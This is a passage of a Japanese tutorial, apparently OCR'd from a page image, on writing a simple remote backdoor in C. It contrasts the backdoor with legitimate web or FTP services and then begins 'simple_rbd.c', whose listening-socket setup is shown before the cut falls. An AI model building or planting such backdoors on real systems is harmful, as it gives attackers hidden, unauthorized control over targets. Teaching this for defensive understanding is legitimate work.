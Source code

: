 　今回作成するリモートバックドアには、「クライアント」と「サーバ」が存在
します。クライアントはサーバに対して要求を出し、サーバはクライアントから
の要求を聞き入れ処理し、そしてその実行結果をクライアントへ返します。ここ
で、クライアントはアタッカー側となり、サーバはターゲット側ということにな
ります（手法によっては逆の場合もあります）。これは、WEBやFTPサービスと同
じようなものだと解釈することができます。WEBのクライアントはブラウザであり、
サーバはApacheやANHTTPd等のサーバアプリケーションとなります。
　正当なWEB等のサービスとリモートバックドアの類で異なる点は、前者は管理者
の意思で稼動させたものであるのに対して、後者はアタッカーが許可無く勝手に
稼動させ、稼動していることがばれないように隠そうとすることです。


■0x03.) シンプルなリモートバックドア

　以下に非常にシンプルなリモートバックドアのソースコードを示します。
　（都合上できるだけ短くコードを書いたので読みにくい点は許してください）
　（クライアントにはtelnetコマンドを使用します）

-----  simple_rbd.c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// エラーを吐いて死ぬ
void die(char *mesg) {
  fprintf(stderr, "%s\n", mesg);
  exit(EXIT_FAILURE);
}
// サーバソケットを設定し、そのファイルディスクリプタを返す
int sock_open(unsigned short port)
{
  int sock;
  struct sockaddr_in addr;
  addr.sin_family      = AF_INET;
  addr.sin_port        = htons(port);
  addr.sin_addr.s_addr = INADDR_ANY;

  if ((sock = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP)) == -1
    || setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, (int[]){1}, sizeof(int)) 
== -1
    || bind(sock, (struct sockaddr *)&addr, sizeof(addr)) == -1
    || listen(sock, 2) == -1) return -1;

  return sock;
}
// メイン
int main(void) {
  const unsigned short port = 1876; // サーバのポート番号
  int sock, client;
